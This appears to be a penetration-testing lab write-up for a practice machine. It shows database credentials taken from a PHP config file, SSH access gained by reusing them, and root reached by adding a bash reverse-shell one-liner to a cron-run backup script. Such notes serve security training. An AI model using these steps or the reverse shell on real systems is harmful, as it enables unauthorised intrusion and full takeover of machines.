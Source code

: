 ```yaml
---
aliases: 
tags:
  - tech
  - cybsec
  - penetration_testing
  - report
author: Mehdi N Tehrani
creat_date: 2023-12-04
category: Cyber Security
subcategory: Penetration Testing - Report
---
```


# linpeas
`/var/www/html/academy/includes/config.php`

```
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");


?>
```


# Credentials
## grimmie
user: `grimmie`
pass: `My_V3ryS3cur3_P4ss`

used by:
- phpmyadmin
- unix user


Use credentials above to SSH into the victim's machine.
# 1. pspy script
https://github.com/DominicBreuker/pspy 
#pspy
Get all processes running from the moment pspy is run.
This captures short-lived processes. In this case, a cron job runs for a second which cannot be captured by other tools like *top*.
As the cron job is run by the root user - UID=0, updating the backup.sh script can run any process by root user
```
2023/12/04 22:47:01 CMD: UID=0     PID=27779  | /usr/sbin/CRON -f 
2023/12/04 22:47:01 CMD: UID=0     PID=27780  | /usr/sbin/CRON -f 
2023/12/04 22:47:01 CMD: UID=0     PID=27782  | /bin/sh -c /home/grimmie/backup.sh 
2023/12/04 22:47:01 CMD: UID=0     PID=27783  | /bin/bash /home/grimmie/backup.sh 
2023/12/04 22:47:01 CMD: UID=0     PID=27784  | /bin/bash /home/grimmie/backup.sh 
2023/12/04 22:47:01 CMD: UID=0     PID=27785  | /bin/bash /home/grimmie/backup.sh 
```

# 2. update backup.sh 
Update backup.sh file run by a cron job to contain a bash rev shell one-liner
the cron job is run 
## bash reverse shell one-liner
#bash #reverse_shell #one-liner
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
`bash -i >& /dev/tcp/<ip>/<port> 0>&1`

# 3. machine rooted
```
root@academy:~# whoami
whoami
root
```

